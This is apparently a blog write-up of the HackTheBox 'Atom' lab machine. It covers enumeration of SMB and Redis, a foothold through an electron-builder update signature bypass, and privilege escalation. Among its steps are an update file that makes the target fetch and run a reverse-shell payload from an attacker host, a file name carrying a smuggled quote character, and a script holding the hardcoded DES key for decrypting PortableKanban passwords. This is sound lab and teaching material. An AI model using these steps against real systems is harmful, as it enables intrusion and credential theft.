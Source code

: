 ```yaml
---
title: HackTheBox - Atom Writeup
date: 2021-05-08 09:45:47 +07:00
categories: ctf
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Atom Writeup.
---
```


<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

<hr>

Its me **m3rcer** back with another one .
This is a fun little box w a medium difficulty. There's a few rabbit holes but other than that its quite straightforward . In my opinion i found the privesc a bit harder than the inital foothold . 

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*

Lets Begin!

<hr>

### ENUMERATION

We kick it off w a usual nmap scan . In this case a default script and version scan w the verbose flag to see open ports on the fly without having to wait for the scan to finish.

![screenshot](/images/atom1.png)


A full port scan reveals redis is active on port 6379 along w winrm at 5985 which shows we can probably use remoting with authentic creds.

<p align="center">
 <img src="images/atom2.png">
</p>

We start off by checking port 80:
We find a possible uname at th end of the pg : __MrR3boot@atom.htb__

From this we infer and add atom.htb to /etc/hosts list. And continue browsing .

Directory Bruteforcing w gobuster results in nothing too great so moving on! 

**Enumerating redis:**

<p align="center">
 <img src="images/atom7.png">
</p>

Much cant be enumerated since redis requires auth . Checking the format of auth shows it requires only the pass. We could attempt to brute force the pass if nothing turns up from smb.

**Enumerating smb:**

<p align="center">
 <img src="images/atom3.png">
</p>

Smbmap shows use we have access to 2 shares amongst which IPC$ is the default and can be used for named pipe enum using enum4linux later .
Software_Updates seems interesting as we have right access too to it.


Using smbclient to connect to the share:

<p align="center">
 <img src="images/atom4.png">
</p>

The other folders are empty so be grap the pdf. Looking at the pdf given we infer 2 things:


**Built with : electron-builder**

We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here..


This link explains the exploit : [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)
In short is a vuln caused my and unescaped variable . We can trigger a parse error in the script .

The exploit bypasses inbuilt signature checks.

<p align="center">
 <img src="images/atom5.png">
</p>

<p align="center">
 <img src="images/atom6.png">
</p>
----------------------------------------------------------------------------------------------------

### FOOTHOLD

**I did the following to recreate the vuln:**

- Generate an msfvenom payload of choice . I generated a rev https exe. and then rename it with a single quote.

<p align="center">
 <img src="images/atom8.png">
</p>

- I renamed the file to d'payload.exe

<p align="center">
 <img src="images/atom10.png">
</p>

- Calculate the hash using the prescribed syntax : 

<p align="center">
 <img src="images/atom9.png">
</p>


- Setup a listener on msfconsole to catch your shell using multi/handler.

- Generate the latest.yml file update: Replace the path and the hash.

```bash
version: 1.2.3
path: http://10.10.14.52/d'payload.exe 
sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
```

- Start a server to host d'payload.exe using: `sudo python -m SimpleHTTPServer 80`

- Finally put the update file in one of the client folders on the share using smbclient.
Wait for about 15-20 secs and let the update happen . You will recieve a meterpreter shell!

<p align="center">
 <img src="images/atom11.png">
</p>

Congrats We now have a reverse shell. 

- A getuid command shows we are ATOM\jason
Awesome!

***GETTING USER.txt***

__C:\Users\jason\Desktop\user.txt__ 

Retrieve contents of the file to see your flag!

----------------------------------------------------------------------------------------------------

### PRIVESC:

**Enumerating with winpeas:**

Begin by dropping winpeas on the box.

<p align="center">
 <img src="images/atom12.png">
</p>

Run it...

Details found :

- Jasons creds :

<p align="center">
 <img src="images/atom13.jpg">
</p>

Dosent allow winrm remoting but...

- A user guide pdf which we might have a look at if needed .... 

<p align="center">
 <img src="images/atom17.png">
</p>


- Since we already know redis was on ... I found its conf file . Looks juicy . Lets have a look:

<p align="center">
 <img src="images/atom14.png">
</p>

- We found the pass for redis. 

<p align="center">
 <img src="images/atom15.jpg">
</p>




**PENTESTING redis:**

Use this [link](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.

Now follow the steps:

- Connect to redis using:

`redis -h 10.10.10.237`


- Authenticate using the password:

`auth pass`


- Retrive info on the keyspace using:

`info keyspace`


- We see that there is one db - number 0 which has 4 keys.
View the keys by:

`keys *`


- We see a bunch of keys . Retrieve the first or last , it might most likely be the administrator using:

`get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`


<p align="center">
 <img src="images/atom16.jpg">
</p>


- We now have the administrator hash ! RightOn!


Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for clues and i found :

<p align="center">
 <img src="images/atom18.png">
</p>

Googling around made me figure that portable-kanban stores the settings for the enc pass.

Searching around for an exploit i found an enc password disclosure vuln [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/) .

- Remove the unnecessary except statement.

The python script:

```python
import json
import base64
from des import * #python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```
- Install des using ... `sudo pip3 install des` as stated in the script.

- Run the script , i/p your hash and get the decrypted hash. 

<p align="center">
 <img src="images/atom20.jpg">
</p>


We now finally have the password of admin. 

Lets try winrm again using these creds.... 


<p align="center">
 <img src="images/atom19.jpg">
</p>

**GETTING Root.txt**

__type C:\Users\Administrator\Desktop\root.txt__

And thats a wrap!

### Bookmark to recieve the latest writeups!






